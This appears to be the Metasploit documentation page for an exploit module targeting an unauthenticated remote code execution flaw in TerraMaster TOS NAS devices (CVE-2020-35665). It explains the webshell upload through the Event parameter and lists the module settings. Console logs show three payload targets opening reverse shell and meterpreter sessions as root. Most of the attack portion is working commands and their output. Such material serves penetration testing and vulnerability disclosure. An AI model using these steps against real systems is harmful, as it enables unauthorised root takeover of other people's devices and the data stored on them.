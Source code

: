 ## Vulnerable Application

This module is exploiting a vulnerability described in [CVE-2020-35665](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-35665) or
[CVE-2020-28188](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-28188) that allows an unauthenticated attacker to upload a webshell
via shell metacharacters in the `Event` parameter using the vulnerable endpoint `include/makecvs.php` during the `CSV` creation process.
See this [AttackerKB Article](https://attackerkb.com/topics/lXY4yjOvwx/cve-2020-35665) for more details.

Because of this, any remote attacker, regardless of authentication, can exploit this vulnerability to gain
access to the underlying operating system as the user that the web services are running as (typically `root` in case of TerraMaster).

Installing a vulnerable test bed requires a TerraMaster NAS device that can run `TOS 4.x`
This module has been tested against a TerraMaster `F2-221` Model with the specifications listed below:

* TerraMaster F2-221
* CPU: `x86`
* TOS Version: `4.1.27`

## Verification Steps

1. `use exploit/linux/http/terramaster_unauth_rce_cve_2020_35665`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set LHOST <attacker host ip>`
1. `set LPORT <attacker host port>`
1. `set TARGET <0-PHP, 1-Unix command or 2-Linux Dropper>`
1. `exploit`
1. You should get a `bash` shell or `meterpreter` session depending on the `target` and `payload` settings.

## Options

### WEBSHELL
You can use this option to set the filename and extension (should be .php) of the webshell.
This is handy if you want to test the webshell upload and execution with different file names.
to bypass any security settings on the Web and PHP server.

### COMMAND
This option provides the user to choose the PHP underlying shell command function to be used for execution.
The choices are `system()`, `passthru()`, `shell_exec()` and `exec()` and it defaults to `passthru()`.
This option is only available when the target selected is either Unix Command or Linux Dropper.
For the native PHP target, by default the `eval()` function will be used for native PHP code execution.

## Scenarios

```msf exploit(linux/http/terramaster_unauth_rce_cve_2020_35665) > info

       Name: TerraMaster TOS 4.2.06 or lower - Unauthenticated Remote Code Execution
     Module: exploit/linux/http/terramaster_unauth_rce_cve_2020_35665
   Platform: Unix, Linux
       Arch: cmd, php, x64, x86, aarch64
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2020-12-12

Provided by:
  h00die-gr3y <h00die.gr3y@gmail.com>
  IHTeam

Module side effects:
 ioc-in-logs
 artifacts-on-disk

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
      Id  Name
      --  ----
  =>  0   PHP
      1   Unix Command
      2   Linux Dropper

Check supported:
  Yes

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
  RPORT      8181             yes       The target port (TCP)
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
  SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
  TARGETURI  /                yes       Path to Terramaster Web console
  URIPATH                     no        The URI to use for this exploit (default is random)
  VHOST                       no        HTTP server virtual host
  WEBSHELL                    no        Web shell name with extension .php. Name will be randomly generated if left unset.


  When TARGET is not 0:

  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  COMMAND  passthru         yes       Use PHP command function (Accepted: passthru, shell_exec, system, exec)


  When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local    machine or 0.0.0.0 to listen on all addresses.
  SRVPORT  8080             yes       The local port to listen on.

Payload information:

Description:
  This module exploits an unauthenticated remote code-execution vulnerability in TerraMaster TOS 4.2.06
  and lower via shell metacharacters in the Event parameter at vulnerable endpoint `include/makecvs.php`
  during CSV creation.
  Any unauthenticated user can therefore execute commands on the system under the same privileges as the
  web application, which typically runs under root at the TerraMaster Operating System.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2020-35665
  https://nvd.nist.gov/vuln/detail/CVE-2020-28188
  https://packetstormsecurity.com/files/160685
  https://packetstormsecurity.com/files/160687
  https://www.ihteam.net/advisory/terramaster-tos-multiple-vulnerabilities/
  https://attackerkb.com/topics/lXY4yjOvwx/cve-2020-35665
```

### TerraMaster F2-210 TOS 4.1.27 - PHP native `php/meterpreter/reverse_tcp` session
```
msf exploit(linux/http/terramaster_unauth_rce_cve_2020_35665) > set target 0
target => 0
msf exploit(linux/http/terramaster_unauth_rce_cve_2020_35665) > exploit

[*] Started reverse TCP handler on 192.168.10.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. TOS version is 4.1.27 and CPU architecture is X64.
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (39927 bytes) to 127.0.0.1
[+] Deleted cuckoo.php
[*] Meterpreter session 5 opened (192.168.10.1:4444 -> 192.168.10.2:55766) at 2023-06-05 14:23:14 +0000

meterpreter > sysinfo
Computer    : TerrorMaster
OS          : Linux TerrorMaster 4.13.16 SMP Mon Jun 05 14:23:56 CET 2023 x86_64
Meterpreter : php/linux
meterpreter > getuid
Server username: root
meterpreter >
```
### TerraMaster F2-210 TOS 4.1.27 - Unix Command `cmd/unix/reverse_bash` session
```
msf exploit(linux/http/terramaster_unauth_rce_cve_2020_35665) > set target 1
target => 1
msf exploit(linux/http/terramaster_unauth_rce_cve_2020_35665) > exploit

[*] Started reverse TCP handler on 192.168.10.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. TOS version is 4.1.27 and CPU architecture is X64.
[*] Executing Unix Command for cmd/unix/reverse_bash
[+] Deleted cuckoo.php
[*] Command shell session 6 opened (192.168.10.1:4444 -> 192.168.10.2:54556) at 2023-06-05 14:31:35 +0000

uname -a
Linux TerrorMaster 4.13.16 SMP Mon Jun 05 14:32:13 CET 2023 x86_64 GNU/Linux
id
uid=0(root) gid=0(root) groups=0(root)
```
### TerraMaster F2-210 TOS 4.1.27 - Linux Dropper `linux/x64/meterpreter/reverse_tcp` session
```
msf exploit(linux/http/terramaster_unauth_rce_cve_2020_35665) > set target 2
target => 2
msf exploit(linux/http/terramaster_unauth_rce_cve_2020_35665) > exploit

[*] Started reverse TCP handler on 192.168.10.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. TOS version is 4.1.27 and CPU architecture is X64.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Sending stage (3045348 bytes) to 127.0.0.1
[+] Deleted cuckoo.php
[*] Meterpreter session 7 opened (192.168.10.1:4444 -> 192.168.10.2:46174) at 2023-06-05 14:39:17 +0000
[*] Command Stager progress - 100.00% done (810/810 bytes)

meterpreter > sysinfo
Computer     : 192.168.10.2
OS           :  (Linux 4.13.16)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
meterpreter >
```

## Limitations
No limitations.
